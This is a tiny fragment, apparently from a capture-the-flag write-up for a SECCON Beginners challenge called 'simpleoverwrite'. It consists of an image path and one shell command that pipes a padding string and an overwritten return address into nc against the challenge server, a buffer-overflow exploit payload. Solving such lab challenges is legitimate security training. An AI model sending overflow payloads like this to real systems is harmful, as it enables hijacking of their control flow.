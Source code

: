 echo -en "AAAAAAAAAAAAAAAAAA\x86\x11\x40\x00\x00\x00\x00" | nc simpleoverwrite.beginners.seccon.games 9001
